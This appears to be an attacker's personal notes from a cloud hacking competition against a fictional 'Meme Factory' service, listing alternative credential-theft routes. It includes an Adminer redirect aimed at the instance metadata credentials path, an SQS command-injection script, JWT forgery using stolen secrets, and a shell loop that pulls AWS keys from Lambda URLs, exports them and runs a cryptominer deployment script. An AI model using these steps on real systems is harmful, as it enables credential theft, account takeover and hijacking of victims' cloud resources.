 
## 1400 Thursday
Competition Ends



# Other ways I can get creds from Meme Factory

## Adminer
http://meme-admin.moscow.fooli.wtf/adminer/?elastic=184.72.85.110%3A30068&username=
./adminer-redirect.py --port 30068 --imds-path iam/security-credentials/

*This one actually doesn't work because of the firewall. All my UNC2903 references are busted*

## SQS Inject
There was a command line inject in the Render Lambda
```bash
./scripts/InjectSQS.sh 184.72.85.110 https://sqs.us-east-1.amazonaws.com/362120196192/moscow-FooliRenderStack-EventQueue-ATqauIo77bw9
```

## JWT
I p0wned all the secrets, so I could forge the JWT and go in as any user.
```bash
grep jwt_secret data/$city/secrets.txt
./scripts/forge_auth_token.py --url fooli-api.$city.fooli.wtf --jwt-secret 'SECRET'
```

# Get the Login URL for a popped team
for url in `awk '{print $NF}' LambdaURLs.txt` ; do
	curl -s $url > creds.json
	unset AWS_SECRET_ACCESS_KEY AWS_ACCESS_KEY_ID  AWS_SESSION_TOKEN
	export AWS_SECRET_ACCESS_KEY=`cat creds.json | jq .AWS_SECRET_ACCESS_KEY -r`
	export AWS_ACCESS_KEY_ID=`cat creds.json | jq .AWS_ACCESS_KEY_ID -r `
	export AWS_SESSION_TOKEN=`cat creds.json | jq .AWS_SESSION_TOKEN -r `
	export AWS_DEFAULT_REGION=us-east-1
	<!-- ./scripts/get_login_url.py -->
	./scripts/deploy-cryptominer.sh
done